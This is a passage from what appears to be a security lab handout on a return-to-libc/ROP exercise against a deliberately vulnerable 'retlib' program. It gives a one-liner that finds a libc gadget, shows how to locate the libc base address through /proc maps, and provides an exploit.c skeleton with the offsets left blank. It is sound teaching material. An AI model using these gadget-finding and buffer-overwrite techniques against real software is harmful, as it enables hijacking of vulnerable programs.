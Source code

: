 
The following command is one way to find this gadet:\footnote{ http://crypto.stanford.edu/~blynn/rop/ } 

\begin{verbatim}
xxd -c1 -p /lib/x86_64-linux-gnu/libc.so.6 | grep -n -B1 c3 | 
grep 5f -m1 | awk '{printf"%x\n",$1-1}'
\end{verbatim}



We now have the relative address from the our gadget to the beginning of the {\tt libc} library. Now we have to find the absolute address. There a few ways to do this subtask, but one of the easiest is to start the {\tt retlib} program in the debugger and break on {\tt main}.  Open another terminal and look for the {\tt retlib} process and find the start of {\tt libc} in \url{/proc/<pid>/maps}.  
\begin{verbatim}

eecs@client_victim:~$ sudo ps -aux | grep retlib 
eecs      39401  0.1  1.5  81344 31040 pts/19   S+   15:43   0:00 gdb retlib
eecs      39441  0.0  0.0   4356   756 pts/19   t    15:46   0:00 /home/eecs/retlib
eecs      39447  0.0  0.0  21292   932 pts/18   S+   15:46   0:00 grep --color=auto retlib
eecs@client_victim:~$ cat /proc/39441/maps
00400000-00401000 r-xp 00000000 fc:00 131694          /home/eecs/retlib
00600000-00601000 r--p 00000000 fc:00 131694          /home/eecs/retlib
00601000-00602000 rw-p 00001000 fc:00 131694          /home/eecs/retlib
00602000-00623000 rw-p 00000000 00:00 0               [heap]
0xDEADBEEF-0XDEADDEAD r-xp 00000000 fc:00 266204  
                                /lib/x86_64-linux-gnu/libc-2.23.so
\end{verbatim}

NOTE: the last two lines above are actually together and the addresses are made-up.  With the base of {\tt libc} and the distance to our gadet 
determined we can now complete the the exploit code.  

\subsubsection{Writing the exploit code}
You may use the following framework to create one.
\begin{verbatim}
/* exploit.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv){
 char buf[52];
 FILE *badfile;
 badfile = fopen("./badfile", "w");
 /* You need to decide the addresses and 
    the values for X, Y, Z.*/
  *(long *) &buf[X] = address;
  *(long *) &buf[Y]= address;   
  *(long *) &buf[Z] = address;   
  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}

\end{verbatim}

